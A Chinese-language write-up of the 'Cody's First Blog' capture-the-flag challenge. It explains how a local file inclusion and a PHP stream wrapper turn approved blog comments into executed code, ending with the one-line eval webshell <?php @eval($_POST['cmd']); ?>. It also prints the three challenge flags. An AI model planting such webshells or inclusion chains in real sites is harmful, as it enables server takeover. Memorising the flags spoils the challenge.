 # Cody's First Blog

运用到文件包含漏洞的使用，以及PHP伪协议的知识。

### Flag1

![](/media/1dsaf1231d.png)

提交评论得到第一个flag（这里提交的内容包含&lt;?php都会弹出flag）

![](/media/12sa124ar13r.png)

**Flag1：**

**^FLAG^70fb6cb5f09fce5fb32c79e83f932dd7325e72bca4a060cd2da8c632dd838a58$FLAG$**

响应包有提到评论需要审核

回到首页，查看源代码发现如下注释：

![](/media/12ewd12sad1.png)

&lt;a href="?page=admin.auth.inc"&gt;Admin login&lt;/a&gt;

跟过去

![](/media/qwdqw21edsag.png)

是一个管理员的登录入口，先把他丢到burpsuit里面爆破，然后继续寻找线索（爆破了一个小时什么也没有，应该是烟雾弹）

### Flag2

注意到：[http://35.196.135.216:5001/d48c38814d/?page=admin.auth.inc](http://35.196.135.216:5001/d48c38814d/?page=admin.auth.inc)

我们对page参数进行修改一下看看

![](/media/eghgjt65ufg.png)

显然这是一个文件包含了，那思路就逐渐清晰，先扫一波存在的文件\(分析结构应该为xx.inc.php文件，这里并不能跨目录包含，已经限制了文件包含的路径\)源代码已经强制在后面添加了.php后缀。（这里方便筛选，包含成功的不会出现字符串Warning，这一条件可以作为筛选项）

![](/media/fafher45uhgf.png)

得到的结果大概就这三个。

访问一下admin.inc这个页面

![](/media/gsdg43h46ghj.png)

页面最底下有一个flag

^FLAG^3b3811daa28ae899032343b43e155238cdf7ae8c921f78d0494813a3dcad0e5c$FLAG$

不仅如此，注意到上面有确认评论的选项，尝试确认一下评论。

![](/media/grege75kgkkgh.png)

回到主页我们惊喜的发现，评论插进了主页，这里就有一个骚思路了，那就是对index文件进行包含，从而达到插入的命令以PHP语句来执行。

![](/media/rthrtmhcvb567d3.png)

### Flag3

插入&lt;?php phpinfo\(\); ?&gt;，并且确认评论

![](/media/asd1das23t262.png)

虽然在页面上没有看到我们插入的内容，但是我们尝试用php伪协议

**PHP伪协议**

PHP 带有很多内置 URL 风格的封装协议，可用于类似 fopen\(\)、 copy\(\)、 file\_exists\(\) 和 filesize\(\) 的文件系统函数。 除了这些封装协议，还能通过 stream\_wrapper\_register\(\) 来注册自定义的封装协议。

[https://www.cnblogs.com/lgf01010/p/9595391.html](https://www.cnblogs.com/lgf01010/p/9595391.html)

**目录**

[![](file:///C:/Users/LLMF/AppData/Local/Temp/msohtmlclip1/01/clip_image021.jpg "目录")](http://image.3001.net/images/20180827/1535362079_5b83c41fbe910.png)

URL如下：

![](file:///C:/Users/LLMF/AppData/Local/Temp/msohtmlclip1/01/clip_image023.jpg)

我们惊喜的发现，插入的PHP代码被解析并且执行了。

下面就是直接插入一句话

&lt;?php @eval\($\_POST\['cmd'\]\); ?&gt;

前往admin.inc确认评论

![](file:///C:/Users/LLMF/AppData/Local/Temp/msohtmlclip1/01/clip_image025.jpg)

然后直接用菜刀连接

![](file:///C:/Users/LLMF/AppData/Local/Temp/msohtmlclip1/01/clip_image027.jpg)

最后一个flag在index.php注释里面

![](file:///C:/Users/LLMF/AppData/Local/Temp/msohtmlclip1/01/clip_image029.jpg)

^FLAG^7c0e45cb6dbb53a134e5627e432a2a660192cdf3fe1dcf5e06b91886594e35e4$FLAG$

![](file:///C:/Users/LLMF/AppData/Local/Temp/msohtmlclip1/01/clip_image031.jpg)

自此全部完成

